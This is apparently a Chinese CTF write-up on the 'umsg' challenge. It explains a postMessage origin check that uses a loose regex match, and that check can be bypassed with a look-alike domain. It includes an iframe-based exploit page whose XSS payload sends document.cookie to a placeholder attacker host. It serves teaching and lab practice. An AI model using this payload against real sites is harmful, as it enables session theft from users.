 umsg题目涉及到了一个现代前端中很容易出现也很有意思的问题。这个问题最早我是在最后一届乌云大会上听#呆子不开口分享的议题中看到了。

这里我们首先看看题目中的关键的代码

```
mounted: function() {
    window.addEventListener("message", (function(e) {
        if (e.origin.match("http://umsg.iffi.top"))
            switch (e.data.action) {
            case "append":
                return void (document.getElementsByTagName("main")[0].innerHTML += e.data.payload);
            case "debug":
                return void console.log(e.data.payload);
            case "ping":
                return void e.source.postMessage("pong", "*")
            }
    }
    ), !1),
    postMessage({
        action: "ping"
        })
    }
```

页面会将收到的消息插入到页面内，且并没有什么过滤，所以我们主要需要绕过的是来自于源的限制

```
if (e.origin.match("http://umsg.iffi.top"))
```
很明显可以看出来对对于源得判断是错误的，只校验了域名头。

这里我们只要找一个`http://umsg.iffi.top.xxx.xxx`来构造利用即可。就可以绕过对源的判断。

利用代码如下：
```
<html>
<iframe id="page1" src="http://umsg.iffi.top:3000"></iframe>

<script>

setTimeout(function(){

var page2 = document.getElementById('page1').contentWindow;

page2.postMessage({action:"append", payload:"<img src=/ onerror=\"location.href=\'http://xxxxxxxxxxx?a=\'+document.cookie\">"}, 'http://umsg.iffi.top:3000');
}, 3000);

</script>
</html>

```

可以看到，现代前端开发过程中，普遍使用postmessage来作为跨源手段，早先前端开发意识不强，来源经常为`*`，随着时间的演变，可能还有更多难以识别的问题在不断产生着，这些问题随时都有可能演化为一个新的漏洞。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2oqak8fz3atmkap59oy39utf/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ksgscemmexy9xhjzb3vgaudm/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9pj1cv9nolm1ojydo1ejwpxr/image.png